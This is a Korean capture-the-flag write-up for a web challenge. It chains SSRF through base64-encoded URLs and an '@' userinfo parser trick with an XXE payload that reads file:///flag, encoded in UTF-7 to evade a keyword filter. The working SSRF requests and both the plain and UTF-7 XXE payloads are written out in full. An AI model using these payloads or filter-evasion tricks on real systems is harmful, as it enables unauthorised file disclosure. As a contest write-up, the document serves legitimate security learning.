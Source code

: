 # familiar

**Description:**
> web  
> [Link](http://cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr)

## Keyword
* Bypass SSRF
* Bypass XXE by using UTF-7

## Solution
![Main](img/001.png)  
메인 페이지에 접근해보면 Flag 메뉴를 볼 수 있습니다.

![Flag-Menu](img/002.png)  
Flag 메뉴에 들어가보면 flag가 어디에 있는지 알려주고 있습니다.  
`Flag is at /flag`

그리고 URL을 보면 아래와 같이 어떠한 값이 인코딩되어 page 파라미터에 입력된 것을 볼 수 있습니다.  
`http://cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/?page=Y2Q0MzAzZWZjODFmMjFjMWQxZTE1ZjRhMzhhYzQ2MzYud2hpdGVoYXRjb250ZXN0LmtyL2ZsYWc=`

해당 값을 base64로 디코딩해보면 문제 URL 주소와 메뉴명을 볼 수 있습니다.  
```python
>>> import base64
>>> base64.b64decode('Y2Q0MzAzZWZjODFmMjFjMWQxZTE1ZjRhMzhhYzQ2MzYud2hpdGVoYXRjb250ZXN0LmtyL2ZsYWc=')
'cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/flag'
```

http://cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/flag  
위 주소로 직접 접근을 해보면 `Seriously?`라는 메시지를 볼 수 있습니다.  
![Seriously](img/003.png)

이번에는 `flag` 대신에 `index`를 넣어서 base64 인코딩하고 page 파라미터에 입력해서 요청하면 아래와 같은 에러 메시지를 볼 수 있습니다.  
```python
>>> import base64
>>> base64.b64encode('cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/index')
'Y2Q0MzAzZWZjODFmMjFjMWQxZTE1ZjRhMzhhYzQ2MzYud2hpdGVoYXRjb250ZXN0LmtyL2luZGV4'
```

http://cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/?page=Y2Q0MzAzZWZjODFmMjFjMWQxZTE1ZjRhMzhhYzQ2MzYud2hpdGVoYXRjb250ZXN0LmtyL2luZGV4  
![404-Error](img/004.png)  
`http://cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/index.xml returns 404 Error...`  
에러 메시지를 통해서 page에 입력된 값에 `.xml 확장자`가 붙는 것을 확인할 수 있습니다.

http://cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/flag.xml  
이번에는 `.xml 확장자`를 포함해서 flag.xml에 직접 접근해보면 flag.xml 파일의 내용을 확인할 수 있습니다.  
![flag.xml](img/005.png)  
```xml
This XML file does not appear to have any style information associated with it. The document tree is shown below.
<content>
<title>Flag</title>
<body><p>Flag is at <strong>/flag</strong></p></body>
</content>
```

flag.xml 파일을 통해 확인한 구조를 바탕으로 자신의 서버에 flag.xml 파일을 생성하고 문제 서버에서 생성한 파일을 요청하도록 page 파라미터에 인코딩해서 입력하였습니다.  
flag.xml:
```xml
<content>
<title>web</title>
<body>tendollar</body>
</content>
```

```python
>>> import base64
>>> base64.b64encode('do9.kr/flag')
'ZG85LmtyL2ZsYWc='
```

http://cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/?page=ZG85LmtyL2ZsYWc=  
![SSRF-Detected](img/006.png)  
하지만, 문제 서버 도메인을 벗어날 경우 `SSRF Detected!` 메시지가 발생하면서 실패한 것을 볼 수 있습니다.

```python
>>> import base64
>>> base64.b64encode('do9.kr:8989@cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/flag')
'ZG85LmtyOjg5ODlAY2Q0MzAzZWZjODFmMjFjMWQxZTE1ZjRhMzhhYzQ2MzYud2hpdGVoYXRjb250ZXN0LmtyL2ZsYWc='
```
http://cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/?page=ZG85LmtyOjg5ODlAY2Q0MzAzZWZjODFmMjFjMWQxZTE1ZjRhMzhhYzQ2MzYud2hpdGVoYXRjb250ZXN0LmtyL2ZsYWc=  
`Flag is at /flag`  
위와 같은 형태로 시도해보면 `SSRF Detected!` 메시지는 발생하지 않지만 자신의 서버로 접근 유도에는 실패하였습니다.

*black hat 2017 - A New Era of SSRF - Exploiting URL Parser in Trending Programming Languages! (Orange Tsai)*  
발표자료를 참고하여 SSRF를 아래와 같은 형태로 우회할 수 있습니다.  
`temp@server@cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/flag`

```python
>>> import base64
>>> base64.b64encode('do9dark@do9.kr@cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/flag')
'ZG85ZGFya0Bkbzkua3JAY2Q0MzAzZWZjODFmMjFjMWQxZTE1ZjRhMzhhYzQ2MzYud2hpdGVoYXRjb250ZXN0LmtyL2ZsYWc='
```
http://cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/?page=ZG85ZGFya0Bkbzkua3JAY2Q0MzAzZWZjODFmMjFjMWQxZTE1ZjRhMzhhYzQ2MzYud2hpdGVoYXRjb250ZXN0LmtyL2ZsYWc=  
`http://do9dark@do9.kr@cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/flag.xml CURL Failed...`  
위와 같은 방법으로 시도할 경우 `SSRF Detected!` 메시지 대신 `CURL Failed...` 메시지가 발생하는 것을 볼 수 있습니다.

자신의 서버에서 8989번 포트를 열어두고 아래와 같은 방법으로 시도하였습니다.
![nc_listening_8989](img/007.png)  
```bash
# nc -l 8989
```

```python
>>> import base64
>>> base64.b64encode('do9dark@do9.kr:8989@cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/flag')
'ZG85ZGFya0Bkbzkua3I6ODk4OUBjZDQzMDNlZmM4MWYyMWMxZDFlMTVmNGEzOGFjNDYzNi53aGl0ZWhhdGNvbnRlc3Qua3IvZmxhZw=='
```
http://cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/?page=ZG85ZGFya0Bkbzkua3I6ODk4OUBjZDQzMDNlZmM4MWYyMWMxZDFlMTVmNGEzOGFjNDYzNi53aGl0ZWhhdGNvbnRlc3Qua3IvZmxhZw==

![nc_connect](img/008.png)  
위와 같이 접근할 경우 8989번 포트로 요청이 들어온 것을 확인할 수 있습니다.

![nc_request_flag.xml](img/009.png)  
사전에 자신의 서버에 만들어 놓은 flag.xml 파일 내용을 직접 입력하여 문제 서버로 전달을 시도하였습니다.

![nc_response_flag.xml](img/010.png)  
정상적으로 문제 서버가 전달받은 내용을 출력한 것을 볼 수 있습니다.

![nc_request_xxe](img/011.png)  
다시 8989번 포트를 열어두고 `/flag` 파일을 읽어서 보여주도록 XXE 공격을 시도하였습니다.  
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY flag SYSTEM "file:///flag" >]>
<content>
<title>web</title>
<body>&flag;</body>
</content>
```

![nc_response_xxe](img/012.png)  
하지만, `XXE Detected!` 메시지가 발생하면서 실패한 것을 볼 수 있습니다.

![nc_xxe_utf7](img/013.png)  
몇 가지 테스트를 해보면 `DOCTYPE`, `ENTITY`, `SYSTEM`과 같은 문자열이 있을 경우 XXE 공격을 막아놓은 것을 알 수 있습니다.  
이 부분은 UTF-7을 통해서 우회할 수 있습니다.  
```xml
<?xml version="1.0" encoding="UTF-7"?>
<+ACE-+AEQ-+AE8-+AEM-+AFQ-+AFk-+AFA-+AEU- foo +AFs-+ADw-+ACE-+AEU-+AE4-+AFQ-+AEk-+AFQ-+AFk- flag +AFM-+AFk-+AFM-+AFQ-+AEU-+AE0- "file:///flag" +AD4-+AF0->
<content>
<title>web</title>
<body>&flag;</body>
</content>
```

![flag](img/014.png)  
UTF-7로 변환한 XXE 공격이 성공하여 `/flag` 파일의 내용을 정상적으로 확인할 수 있습니다.

![iconv](img/015.png)  
다음과 같은 명령어를 통해 UTF-7로 변환한 문자열을 UTF-8로 변환하여 확인할 수 있습니다.  
```bash
# cat flag.xml | iconv -f UTF-7 -t UTF-8
```

해당 문제 서버가 입력값을 처리하는 과정:  
```
$url = $_GET['page'] . '.xml';
ssrf_check($url);
curl($url);
xxe_check($url);
xml_parse($url);
```

## Flag
Flag{dpvmdprtmdofqjaeocpdjswpskdhsi}
